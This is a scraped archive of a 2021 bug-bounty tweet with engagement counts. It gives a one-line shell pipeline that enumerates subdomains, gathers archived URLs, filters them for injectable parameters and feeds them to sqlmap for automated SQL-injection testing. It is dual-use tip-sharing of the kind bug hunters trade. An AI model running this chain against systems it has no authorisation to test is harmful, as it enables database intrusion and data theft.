 <td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1357752441161326592+pu+img+z_msRUf1WCpePtQz.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1357752441161326592/pu/img/z_msRUf1WCpePtQz.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>21</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>1026</code></td>
</tr></table>

---

# ofjaaah
**https://twitter.com/ofjaaah/status/1357704709021302787 _at 2021-02-05 14:56:42_**
<blockquote>
💉 findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli &gt;&gt; sqli ; sqlmap -m sqli --batch --random-agent --level 1

https://t.co/WXQZxQgSK2

https://t.co/SP7SjT7cpE 🦈

#bugbounty #bugbountytips #SqlInjection #KingOfBugbounty https://t.co/P4eXfo1cpA
</blockquote>

* http://testphp.vulnweb.com
* https://github.com/KingOfBugbounty/KingOfBugBountyTips
* https://m.do.co/c/703ff752fd6f
